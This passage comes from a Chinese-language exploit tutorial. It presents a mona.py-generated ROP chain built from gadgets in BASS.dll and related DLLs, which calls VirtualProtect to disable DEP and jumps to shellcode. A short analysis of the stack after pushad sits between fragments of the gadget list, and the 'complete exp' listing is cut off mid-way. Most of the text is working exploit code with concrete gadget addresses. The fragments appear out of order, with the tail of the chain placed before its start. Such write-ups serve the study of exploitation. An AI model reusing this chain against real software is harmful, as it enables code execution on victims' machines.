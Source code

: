 ```
      0x1001dc05,  # RETN (ROP NOP) [BASS.dll]
      #[---INFO:gadgets_to_set_eax:---]
      0x10015fe7,  # POP EAX # RETN [BASS.dll] 
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x1001d7a5,  # PUSHAD # RETN [BASS.dll] 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()
```

#### RopChain分析

`ropchain`是十分精巧的。ropchain的主要目的是为 `VirtualProtect()` 提供参数和控制执行流。

在执行完`pushad`之后，栈中数据的内容应该如下：

- `_edi` 表示执行`pushad`前对应寄存器中的值
- `-> <func>` 表示`<func>`的地址

```
_edi # -> retn
_esi # -> vitrualprotect
_ebp # -> jump esp
_esp # shllcode的起始地址
_ebx # 0x201
_edx # 0x40
_ecx # 0x1003f0cc，一个可写地址
_eax # nop
shellcode
```

执行了`pushad`之后，`retn`指令从栈顶端取出新的指令地址，并跳转至该地址开始执行，发现还是个`retn`，重复之前过程，便将控制流指向了`VirtualProtect`函数。

`VirtualProtect`函数将`_ebp`看作返回地址，将再下面的四个值看作四个输入的参数，函数效果为关闭`shellcode`所在页内存的`DEP`保护。`_eax`没用。

执行完后，`jump esp`便将执行流转到`shellcode`。

#### 完整exp

完整的`exp`如下：

```python
import struct

def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x10015f82,  # POP EAX # RETN [BASS.dll] 
      0x1060e25c,  # ptr to &VirtualProtect() [IAT BASSMIDI.dll]
      0x1001eaf1,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [BASS.dll] 
      0x10030950,  # XCHG EAX,ESI # RETN [BASS.dll] 
      #[---INFO:gadgets_to_set_ebp:---]
      0x1001d748,  # POP EBP # RETN [BASS.dll] 
      0x1010539f,  # & jmp esp [BASSWMA.dll]
      #[---INFO:gadgets_to_set_ebx:---]
      0x10015f77,  # POP EAX # RETN [BASS.dll] 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x10014db4,  # NEG EAX # RETN [BASS.dll] 
      0x10032f32,  # XCHG EAX,EBX # RETN 0x00 [BASS.dll] 
      #[---INFO:gadgets_to_set_edx:---]
      0x10015fe7,  # POP EAX # RETN [BASS.dll] 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x10014db4,  # NEG EAX # RETN [BASS.dll] 
      0x10038a6d,  # XCHG EAX,EDX # RETN [BASS.dll] 
      #[---INFO:gadgets_to_set_ecx:---]
```